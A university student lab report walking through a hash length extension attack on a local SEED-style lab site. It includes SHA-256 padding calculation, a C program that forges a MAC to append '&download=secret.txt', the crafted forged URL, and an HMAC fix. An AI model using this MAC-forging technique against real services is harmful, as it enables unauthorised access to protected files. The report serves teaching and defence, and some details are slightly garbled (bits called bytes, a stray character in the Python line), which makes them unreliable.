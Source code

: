 # Report 3: Hash Length Extension Attack Lab

In this lab we will explore how we can compromise a Mac by expanding an intercepted message without knowing the key.
For this we will first have to set up the lab environment. We first download the zip and build the **docker image**. Then we have to change the **/etc/hosts** file and add a new address to it, that being:

```sh
10.9.0.80 www.seedlab-hashlen.com
```

With this we are finally ready to start the lab.

## Task 1: Send Request to List Files

In order for the website to list all it's files we need to craft a request in the following way:

```sh
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```
Firstly the **lstcmd** needs the value of **1** to execute this type of request and the link above is also missing 3 arguments: **myname**, **uid** and **mac**
For this lab we will be using the name **Eduardo** and we will choose a uid from the **key.txt** in the LabHome directory. We see what is contained in the file in the image bellow:

![Output of key.txt](images/image1.PNG)

For this lab we chose the uid of **1005** which has a corresponding key of **xciujk**. And with those 3 values we can calculate the mac for the user **Eduardo** with the uid of **1005** by executing the command bellow:

```sh
$ echo -n "xciujk:myname=Eduardo&uid=1005&lstcmd=1" | sha256sum
```

This command results in the following:

![Hash created using the message "xciujk:myname=Eduardo&uid=1005&lstcmd=1"](images/image2.PNG)

As we can see the **mac** obtained is: **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**.
Now, equiped with the 3 arguments, we can craft the completed URL.

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f
```

When we sen it using the browser we obtain the following:

![The resulting web page when using the url](images/image3.PNG)

The image shoes that our **MAC** is valid and shows us the two files in the directory, those being **secret.txt** and **key.txt**!

## Task 2: Create Padding

Now that we know how the website works, it is time to try to attack it! To do that we must first understand how padding is calculated for a one-way hash.
The block size of **SHA 256**is 64 bytes, so a message will be padded in blocks of 64 bytes during the hash calculation. The padding consists of one byte of **\x80** folowed by many 0s and finally an **8 byte** length field with the length of the message hashed.
So, our message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, consists of **39 bytes**. So the length of our padding will be **64-39= 25 bytes**. The length of our message will be **39*8=312 bytes**. **312 bytes** in hex is **\x01\x38**. So our Padding wil be:

```c
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x38"
``` 
With that done we can begin with the next task.

## Task 3: The Length Extension Attack

We can finally start the attack! For this we will need 2 things: a MAC for a valid request and the size of the MAC key. 
In **Task 1** we calculated the MAC for the message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, that being **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**. We also know the size of the key **xciujk** that being **6**!
With this we can add a **new message** to the end of the padding and create a valid MAC without knowing the key!
For that we will use a program called **length_ext.c** that can create a new valid **MAC** with our custom message added at the end!
The program is written bellow:

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0xee73e3a3);
    c.h[1] = htole32(0xdfc4f7dd);
    c.h[2] = htole32(0x24bfa90a);
    c.h[3] = htole32(0x766efc79);
    c.h[4] = htole32(0xd6d9f1df);
    c.h[5] = htole32(0x31e7c2bb);
    c.h[6] = htole32(0x7c1c7340);
    c.h[7] = htole32(0x4c669d3f);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
``` 
In the program above we write our valid **MAC** in **c** and we add our extra message, that being **&download=secret.txt** that should allow us to download the website's secret file!
We can compile the program using the following command:

```sh
$ gcc length_ext.c -o length_ext -lcrypto
```
Running the code results in the following image:

![Generation of our New MAC](images/image4.PNG)

So the new MAC is: **b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb**! With this we can finally craft our url and see if it works. The following is the URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%38&download=secret.txt&mac=b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb
```

When we input the following URL in the browser we get the following:

![Our URL was successful in attacking the website](images/image5.PNG)

It worked! The **secret.txt** was accessed, but how did it work? What we did was take a legitimate MAC and calculated its padding. We then add the padding to the hash and simply add our new data in hashed form to the end of it, this way we create a legitimate MAC with our data without knowing the key! This happened because **SHA 256** does not hide the length of the original message making it possible to find the padding and attach custum data to the end of the hash.

## Task 4: The Length Extension Attack

Now that we have done the attack, how can we protect the website from it?
The answer is in using **HMAC**. Firstly we will modify the server's program and use python's **hmac** to implmente a more secure **verify_mac()**. We can implement the code by adding the following lines to **verify_mac()** in lab.py:

```py
real_mac = hmac.new(bytearray(key.encode(´'utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
``` 

This way we are creating a HMAC for the uid keys, just like in **Task 1** we will generate a MAC to list all the files on the website's directory. But we will have to use a dedicated program as to generate a HMAC is a bit more complex than just using **SHA 256**. The following is a dedicated program to generate an **HMAC** for our uid key of **xciujk**:

```py
import hmac
import hashlib
key='xciujk'
message='myname=Eduardo&uid=1005&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
print(mac)
``` 

The program returns the following:

![Generating our HMAC for our message](images/image6.PNG)

The HMAC generated is: **e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189**! We can now craft our URL just like in **Task 1**. The following is the new URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189
```

When we access the url this is what we find:

![The Website now works with HMAC](images/image7.PNG)

So we made the site use **HMAC**! But why is this implementation more secure?
**HMAC** utilizes a secret key to derive two different keys: the inner key and the outer key. These keys are derived using a specific algorithmic process, usually involving XOR operations with predefined constants.
HMAC applies the hashing process twice. Initially, it takes the message and the inner key, concatenates them, and then computes the hash of this concatenated value. Subsequently, it hashes the result of the first hash operation concatenated with the outer key.
This two-step process makes HMAC immune to length extension attacks. In such attacks, an adversary attempts to append data to the original message without knowing the secret key. However, since HMAC incorporates the secret key into both the key derivation and the hashing process, it's practically impossible for an attacker to generate a valid HMAC for a modified message without the secret key. SO the website is immune to hash length attacks while using  **HMAC**! 

### Authored by:
    Eduardo Ramos, up201906732
    Leandro Silva, up202008061
    Luís Paiva, up202006094